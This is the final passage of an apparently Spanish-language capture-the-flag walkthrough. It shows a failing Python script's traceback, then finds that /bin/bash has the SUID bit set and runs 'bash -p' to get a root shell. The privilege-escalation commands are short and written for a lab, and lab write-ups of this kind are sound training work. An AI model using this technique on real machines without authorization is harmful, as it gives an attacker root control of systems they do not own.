 Info:

```
Ojo Aqui
Processed data: tHIS IS SOME DUMMY DATA THAT NEEDS TO BE PROCESSED.
Useless calculation result: 499999500000
Traceback (most recent call last):
  File "/opt/paw.py", line 41, in <module>
    main()
  File "/opt/paw.py", line 38, in main
    run_command()
  File "/opt/paw.py", line 30, in run_command
    subprocess.run(['echo Hello!'], check=True)
    ^^^^^^^^^^^^^^
AttributeError: module 'subprocess' has no attribute 'run'
```

Y si ahora listamos los permisos de la `bash` veremos lo siguiente:

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Vemos que tiene permisos de `SUID` por lo que haremos lo siguiente:

```shell
bash -p
```

Y con esto seremos `root`, por lo que ya habremos terminado la maquina.
